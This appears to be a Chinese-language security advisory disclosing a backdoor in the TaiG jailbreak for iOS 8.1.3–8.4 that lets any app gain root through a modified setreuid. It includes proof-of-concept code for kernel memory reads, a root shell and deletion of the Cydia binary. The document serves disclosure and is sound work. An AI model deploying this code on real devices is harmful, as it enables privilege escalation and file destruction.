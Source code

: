 # 太极越狱重大安全后门

0x00 背景
=======

* * *

太极越狱iOS8.1.3-8.4含有重大安全后门，越狱后导致任意APP可以提权到Root，从而影响用户数据的安全。举例来说获取Root权限后可以完全控制系统文件，甚至进一步安装木马等严重威胁用户安全的恶意软件。

0x01 细节
=======

* * *

具体分析结果显示太极越狱修改了`setreuid`这个关键系统API，导致任意APP都可以直接调用`setreuid(0,0)`获得Root执行权限，从而可以修改任意系统文件、也可以`task_for_pid`打开系统内核句柄从而完全控制系统底层。例如通过写入系统目录`“/Library/LaunchDaemons”`可以注册系统服务，从而植入木马、病毒、盗号工具威胁用户隐私数据和密码。

漏洞重现演示如下图：

![enter image description here](http://drops.javaweb.org/uploads/images/b8c5efe580e621eb964c8fd4915cb630665e06d4.jpg)

示例一：通过`test_taig_backdoor1`程序读取内核内存

![enter image description here](http://drops.javaweb.org/uploads/images/512b5c7dbc52f86b96d5d1b27f16151ee2458f87.jpg)

示例二：通过`test_taig_backdoor2`获得root权限shell

`test_taig_backdoor`读取任意内核poc代码：

```
#include <Foundation/Foundation.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/param.h>
#include <spawn.h>
#include <mach/mach.h>

void dump_kernel_memory(vm_address_t addr)
{
    kern_return_t kret;
    mach_port_t proc_task = 0;
    vm_size_t ret_size = 0;
    vm_size_t i;
    char buffer[128] = {0};
    int ret;

    ret = task_for_pid(mach_task_self(), 0, &proc_task);
    if (ret != 0)
    {
        NSLog(@"[err] get tfp0 fail: %d", ret);
        return;
    }

    NSLog(@"task for pid 0 = %u", proc_task);

        kret = vm_read_overwrite(proc_task,
                                addr,
                                sizeof(buffer),
                                  (vm_address_t)buffer,
                                   &ret_size);

    char *info = malloc(4096);
    info[0] = '\0';

    for (i = 0; i < ret_size; i++)
    {
        if (i % 16 == 0) sprintf(info + strlen(info), "\n%p: ", (void *)(addr + i));
        sprintf(info + strlen(info), "0x%02x ", *(uint8_t*)(buffer + i));
    }
    NSLog(@"%s", info);

    free(info);
}

int main (int argc, const char * argv[])
{
    if (argc != 2)
    {
        NSLog(@"%s [kernel_address]", argv[0]);
        return 0;
    }

    NSLog(@"current uid=%d euid=%d", getuid(), geteuid());

    /*
    * taig backdoor test
    */

    setreuid(0,0);

    NSLog(@"now uid=%d euid=%d", getuid(), geteuid());

    vm_address_t addr = strtoul(argv[1], NULL, 16);
    dump_kernel_memory(addr);

    return 0;
}

```

test_taig_backdoor2提权poc代码：

```
void get_root_shell
{
    setreuid(0,0);
    system("/bin/bash -i");
}

```

在APP中添加下面的代码进行删除文件测试（谨慎执行）：

```
void testBackdoor()
{
NSLog(@"当前运行进程 uid=%d euid=%d", getuid(), geteuid());
setreuid(0,0);
NSLog(@"后门提权后，当前运行进程 uid=%d euid=%d", getuid(), geteuid());

NSLog(@"删除任意文件演示（该测试会导致Cydia无法运行，请谨慎执行）");
unlink("/Applications/Cydia.app/MobileCydia");
}

```

太极越狱iOS8.0-8.1.1未能找到机器进行测试，可能也有此重大后门。

0x02 总结
=======

* * *

越狱软件中藏有安全后门并非没有先例。早在针对iOS 7的完美越狱工具evasi0n7中，越狱开发者evad3rs就修改了第0号系统调用，导致任意app可以轻易获得内核代码执行的能力。这一做法也引起越狱大神winocm的强烈不满([http://winocm.moe/projects/research/2014/01/11/evading-ios-security/](http://winocm.moe/projects/research/2014/01/11/evading-ios-security/))。早在2014年Winocm在博文中就已经质疑太极是否在利用这个后门。

太极越狱与evad3rs的“绯闻”一直没有间断。据福布斯报道（[http://www.forbes.com/sites/thomasbrewster/2015/06/26/china-iphone-jailbreak-industry/](http://www.forbes.com/sites/thomasbrewster/2015/06/26/china-iphone-jailbreak-industry/)）（[http://mobile.163.com/15/0630/10/ATBNV93H0011671M.html](http://mobile.163.com/15/0630/10/ATBNV93H0011671M.html)）, 太极曾支付evad3rs高达一百万美金用于越狱合作开发，该合作的产物就是evasi0n7强制安装“太极助手”的闹剧。至于太极越狱的安全后门是“惯犯”还是“初犯”的谜底恐怕就无法揭开了。